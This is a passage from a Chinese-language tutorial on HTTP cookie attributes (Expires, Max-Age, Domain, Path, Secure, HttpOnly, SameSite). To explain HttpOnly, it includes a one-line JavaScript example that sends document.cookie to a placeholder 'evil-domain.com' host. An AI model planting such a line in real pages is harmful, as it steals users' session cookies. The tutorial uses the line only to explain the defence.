 下面是一个例子。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry
```

服务器收到浏览器发来的 Cookie 时，有两点是无法知道的。

- Cookie 的各种属性，比如何时过期。
- 哪个域名设置的 Cookie，到底是一级域名设的，还是某一个二级域名设的。

## 3、Cookie 的属性

### 3.1、Expires，Max-Age

Expires属性指定一个具体的到期时间，到了指定时间以后，浏览器就不再保留这个 Cookie。它的值是 UTC 格式，可以使用`Date.prototype.toUTCString()`进行格式转换。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

如果不设置该属性，或者设为null，Cookie 只在当前会话（session）有效，浏览器窗口一旦关闭，当前 Session 结束，该 Cookie 就会被删除。另外，浏览器根据本地时间，决定 Cookie 是否过期，由于本地时间是不精确的，所以没有办法保证 Cookie 一定会在服务器指定的时间过期。Max-Age属性指定从现在开始 Cookie 存在的秒数，比如60 * 60 * 24 * 365（即一年）。过了这个时间以后，浏览器就不再保留这个 Cookie。如果同时指定了Expires和Max-Age，那么Max-Age的值将优先生效。如果Set-Cookie字段没有指定Expires或Max-Age属性，那么这个 Cookie 就是 Session Cookie，即它只在本次对话存在，一旦用户关闭浏览器，浏览器就不会再保留这个 Cookie。

### 3.2、Domain，Path

Domain属性指定浏览器发出 HTTP 请求时，哪些域名要附带这个 Cookie。如果没有指定该属性，浏览器会默认将其设为当前域名，这时子域名将不会附带这个 Cookie。比如，example.com不设置 Cookie 的domain属性，那么sub.example.com将不会附带这个 Cookie。如果指定了domain属性，那么子域名也会附带这个 Cookie。如果服务器指定的域名不属于当前域名，浏览器会拒绝这个 Cookie。Path属性指定浏览器发出 HTTP 请求时，哪些路径要附带这个 Cookie。只要浏览器发现，Path属性是 HTTP 请求路径的开头一部分，就会在头信息里面带上这个 Cookie。比如，PATH属性是/，那么请求/docs路径也会包含该 Cookie。当然，前提是域名必须一致。

### 3.3、Secure，HttpOnly

Secure属性指定浏览器只有在加密协议 HTTPS 下，才能将这个 Cookie 发送到服务器。另一方面，如果当前协议是 HTTP，浏览器会自动忽略服务器发来的Secure属性。该属性只是一个开关，不需要指定值。如果通信是 HTTPS 协议，该开关自动打开。HttpOnly属性指定该 Cookie 无法通过 JavaScript 脚本拿到，主要是document.cookie属性、XMLHttpRequest对象和 Request API 都拿不到该属性。这样就防止了该 Cookie 被脚本读到，只有浏览器发出 HTTP 请求时，才会带上该 Cookie。

```javascript
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

上面是跨站点载入的一个恶意脚本的代码，能够将当前网页的 Cookie 发往第三方服务器。如果设置了一个 Cookie 的HttpOnly属性，上面代码就不会读到该 Cookie。

### 3.4、SameSite

Chrome 51 开始，浏览器的 Cookie 新增加了一个SameSite属性，用来防止 CSRF 攻击和用户追踪。Cookie 往往用来存储用户的身份信息，恶意网站可以设法伪造带有正确 Cookie 的 HTTP 请求，这就是 CSRF 攻击。举例来说，用户登陆了银行网站your-bank.com，银行服务器发来了一个 Cookie。

```
Set-Cookie:id=a3fWa;
```
